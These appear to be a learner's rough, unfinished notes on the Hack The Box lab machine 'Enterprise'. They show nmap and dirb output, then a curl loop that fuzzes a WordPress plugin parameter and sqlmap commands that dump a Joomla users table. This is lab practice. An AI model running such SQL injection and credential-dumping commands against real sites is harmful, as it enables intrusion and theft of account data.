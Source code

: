 Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-11 06:31 EDT
Nmap scan report for 10.129.94.125
Host is up (0.086s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 5.35 seconds

START_TIME: Tue Apr 11 06:49:57 2023
URL_BASE: http://enterprise.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

                                                                             GENERATED WORDS: 4612

---- Scanning URL: http://enterprise.htb/ ----
                                                                             + http://enterprise.htb/index.php (CODE:301|SIZE:0)                         
+ http://enterprise.htb/server-status (CODE:403|SIZE:302)                   
                                                                             ==> DIRECTORY: http://enterprise.htb/wp-admin/
                                                                             ==> DIRECTORY: http://enterprise.htb/wp-content/
                                                                             ==> DIRECTORY: http://enterprise.htb/wp-includes/
+ http://enterprise.htb/xmlrpc.php (CODE:405|SIZE:42)                       
                                                                            
---- Entering directory: http://enterprise.htb/wp-admin/ ----
                                                                             + http://enterprise.htb/wp-admin/admin.php (CODE:302|SIZE:0)                
                                                                             ==> DIRECTORY: http://enterprise.htb/wp-admin/css/
                                                                             ==> DIRECTORY: http://enterprise.htb/wp-admin/images/
                                                                             ==> DIRECTORY: http://enterprise.htb/wp-admin/includes/
+ http://enterprise.htb/wp-admin/index.php (CODE:302|SIZE:0)                
                                                                             ==> DIRECTORY: http://enterprise.htb/wp-admin/js/
                                                                             ==> DIRECTORY: http://enterprise.htb/wp-admin/maint/
                                                                             ==> DIRECTORY: http://enterprise.htb/wp-admin/network/
                                                                             ==> DIRECTORY: http://enterprise.htb/wp-admin/user/
                                                                            
---- Entering directory: http://enterprise.htb/wp-content/ ----

   
![](20230411070651.png)

The server is very unstable actually

based on limited walkthorugh i have seen its  about brute forcing some or the other directory ot get admin access but not able  to brute force because of website unstability.

for advanced nmap scan
nmap -p 22,80,443,8080 -sCV -Pn  enterprise.htb

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4e98cc5b55223f4b8ced1964ac0faac (RSA)
|   256 f39a8558aad981382dea1518f78edd42 (ECDSA)
|_  256 debf116dc027e3fc1b34c04f4f6c768b (ED25519)
80/tcp   open  http     Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-generator: WordPress 4.8.1
|_http-title: USS Enterprise &#8211; Ships Log
443/tcp  open  ssl/http Apache httpd 2.4.25
| ssl-cert: Subject: commonName=enterprise.local/organizationName=USS Enterprise/stateOrProvinceName=United Federation of Planets/countryName=UK
| Not valid before: 2017-08-25T10:35:14
|_Not valid after:  2017-09-24T10:35:14
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.25 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http     Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
used wpscan

using feroxbuster
feroxbuster -u http://enterprise.htb -k

/files

nc enterprise.htb 32812

 for i in {0..100}; do echo -n "$i: "; curl -s http://enterprise.htb/wp-content/plugins/lcars/lcars_dbpost.php?query=$i; done | grep . 
0:     

sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch
...[snip]...

qlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D joomladb -T edz2g_users --dump
...[snip]...

https://0xdf.gitlab.io/2021/06/16/htb-enterprise.html

too tough





